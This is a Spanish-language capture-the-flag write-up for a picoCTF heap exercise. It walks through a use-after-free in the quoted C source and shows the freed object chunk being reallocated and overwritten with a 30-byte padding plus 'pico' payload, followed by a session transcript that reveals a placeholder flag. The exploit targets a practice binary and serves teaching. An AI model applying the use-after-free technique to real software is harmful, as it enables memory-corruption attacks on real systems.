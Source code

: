 Este ejercicio nos da un programa y su código fuente. El programa ofrece las siguientes opciones:

```c
./chall

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice:
```

La primera opción imprime un valor y su dirección en memoria. La segunda permite guardar un objeto en el heap usando `malloc`:

```c
char* alloc = malloc(size);
printf("Data for flag: ");
fflush(stdout);
scanf("%s", alloc);
```

Existe una opción para liberar la memoria de `x`:

```c
case 5:
    free_memory();
    break;
```

```c
void free_memory() {
    free(x);
}
```

Aquí ocurre algo importante: el programa permite liberar el chunk de memoria donde está el valor de `x` y luego permite escribir un nuevo valor en el heap. Esto significa que podemos sobrescribir el contenido anterior. Al liberar el chunk que contiene la palabra "bico", el espacio queda marcado como libre, y si pedimos un nuevo `malloc`, se usará ese mismo espacio.

El objetivo del ejercicio es cambiar el valor de `bico` a `pico`:

```c
void check_win() {
  if (!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
}
```

Entonces, para resolver este ejercicio:

1. Liberamos el chunk de `x`, quedando libre.
2. Escribimos en el heap con `malloc`.
3. Imprimimos la flag con la opción correspondiente.

El objeto que se inserta en el heap es del tipo `object`:

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

object *x;
```

Para sobrescribir el campo `flag`, debemos introducir 30 bytes (10+10+10) para llenar `a`, `b` y `c`, seguidos por `"pico"`.

Probamos con:

```bash
python2 -c 'print ("A" * 30 + b"pico")'
```

Salida:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
```

Interacción con el binario:

```c
./chall

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x138166ce  ->   bico
+-------------+-----------+

Enter your choice: 5

Enter your choice: 2
Size of object allocation: 40
Data for flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x138166ce  ->   pico
+-------------+-----------+

Enter your choice: 4
YOU WIN!!11!!
picoCTF{SECRETO}
```

¡Tenemos la flag!
